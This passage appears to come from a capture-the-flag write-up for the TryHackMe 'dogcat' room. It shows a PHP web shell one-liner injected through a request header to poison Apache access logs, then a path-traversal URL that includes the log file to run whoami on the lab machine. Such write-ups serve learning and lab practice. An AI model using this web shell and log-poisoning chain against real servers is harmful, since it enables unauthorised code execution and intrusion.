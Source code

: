 ```php
<?php system($_GET['cmd']);?>
```

![Burpsuit poison php header](/Images/thm_dogcat_burpsuit_1.jpg)

Now that we I have poisoned the logs I try to execute a simple whoami command to see if it works and it does.
```
http://10.10.124.115/?view=dog../../../../../../var/log/apache2/access.log&ext=&cmd=whoami
```

![dogcat LFI to code execution](/Images/thm_dogcat_lfi_2.jpg)
